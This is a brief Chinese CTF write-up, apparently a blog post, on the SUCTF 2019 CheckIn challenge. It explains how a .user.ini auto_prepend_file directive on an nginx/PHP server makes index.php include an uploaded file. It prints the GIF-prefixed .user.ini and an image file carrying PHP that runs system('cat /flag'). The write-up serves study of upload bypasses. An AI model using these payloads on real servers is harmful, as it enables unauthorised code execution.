 在nginx服务器中有一个类似于apache服务器.htaccess文件的文件 .user.ini

user.ini有两个特殊的配置：



auto_prepend_file和auto_append_file这个配置会把配置中的文件包含到要执行的文件中。

（如index.php），类似于在index.php中插入一句：require(./a.jpg);



```javascript
1. auto_prepend_file是在文件前插入

2.auto_append_file在文件最后插入
```



列如：

从SUCTF 2019 CheckIn



# 1. .user.ini写入：

```javascript
GIF89a
auto_prepend_file=a.jpg
```



![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件上传漏洞/服务器特性造成的文件上传漏洞/nginx/images/95DE1676E0A346FB99E9C4DAFE81DBB9clipboard.png)

# 2.上传a.jpg

a.jpg中写入：



```javascript
GIF89a
<script language='php'>system('cat /flag');</script>
```





# 3.访问index.php 

此时index.php文件中包含了a.jpg

则执行了a.jpg的内容

![](https://raw.githubusercontent.com/h1iba1/h1iba1.github.io/refs/heads/master/_posts/CTF/ctf/文件上传漏洞/服务器特性造成的文件上传漏洞/nginx/images/AA9EB654A0E648AF94BE8DCC3F5B04A9clipboard.png)



